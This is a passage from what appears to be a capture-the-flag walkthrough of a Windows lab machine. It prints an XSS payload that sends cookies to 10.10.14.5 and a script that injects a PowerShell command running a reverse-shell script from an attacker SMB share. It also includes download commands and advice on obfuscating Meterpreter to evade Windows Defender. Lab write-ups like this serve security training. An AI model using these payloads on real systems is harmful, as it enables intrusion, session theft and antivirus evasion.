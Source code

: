 ```<img src=x onerror=this.src="http://10.10.14.5/?c="%2bdocument.cookie>```

Now we can look through the ```backdoorchecker.php``` code. We know a few things. The first 3 characters must be 'dir', it's filtering out some escape characters and the request must be made locally. So the logic here might be to get the machine itself to make the call for us and just concatenate our commands rather than escaping the command.

For the first goal, getting the system to call itself, we can use [```XMLHttpRequest```](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest). The next goal is the command. We can't escape the command but we can append to it. We might able to use ```||``` to execute after failing the first part of the command. If both of those work, we can then leverage our malicous command. But how? Since we can't upload anything we can leverage the Windows functionality to possibly execute a script on a different ```SMB``` share. 

After much trial and error the payload looks like this:

```
<script>var payL;if (window.XMLHttpRequest) {payL=new XMLHttpRequest()} else{payL=new ActiveXObject("Microsoft.XMLHTTP")};payL.open("POST","/admin/backdoorchecker.php");payL.setRequestHeader('Content-type','application/x-www-form-urlencoded');payL.send("cmd=dirderp || powershell -exec bypass -f \\\\10.10.14.5\\shellme.ps1");</script>
```

We run ```Powershell``` with the bypass flag as a precaution. 

Now we need to create a payload. For this we'll use ```MSFPC``` to craft a ```Powershell``` payload:

```msfpc powershell tun0```

Next we start up a ```SMB``` server: ```impacket-smbserver share .``` Then fire off our payload in Burp and wait.

After a few tries we finally get a connection but our ```reverse shell``` listener never fires up. It's possible that some anti-virus is blocking our script from running since it is an out of the box reverse shell. No problem, we can use [this one liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3#file-powershell_reverse_shell-ps1-L3) and make a quick reverse shell file. We call the file shell.ps1 and repeat the process.

{{< figure src="__GHOST_URL__/content/images/2019/11/user-bankrobber.gif" >}}

This time, it works! We get our ```user.txt``` flag! Now we need to start our internal enumeration process. Similar to ```linenum``` or ```linpeas``` we have [```winPE```](https://github.com/carlospolop/winpe). We can use ```invoke-webrequest``` to download our file from our ```SimpleHttpServer```:

```invoke-webrequest http://10.10.14.5/winpe.bat -O C:/Windows/System32/spool/drivers/color/winpe.bat```

After we download the file and run it, we can parse through the output. We see that there is something listening on port 910. We also see a few applications with inbound connections allowed.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-56.png" >}}

We are interested in port 910 in particular. We want to bind the targets port 910 to our local port 910 so that we can get an idea of what's running on it. We can do this with ```Meterpreter```. The tricky part is to generate a payload that doesn't get caught by Windows Defender. Enter [```SpookFlare```](https://github.com/hlldz/SpookFlare). We can create an obfuscated payload then compile it. Alternatly you [could use this](https://astr0baby.wordpress.com/2019/01/26/custom-meterpreter-loader-in-2019/) for a linux only (no mono installed) solution.

After you've chosen the payloader you want to use just upload it to the server using ```invoke-webrequest``` and execute it.

{{< figure src="__GHOST_URL__/content/images/2019/11/meterp.gif" >}}

```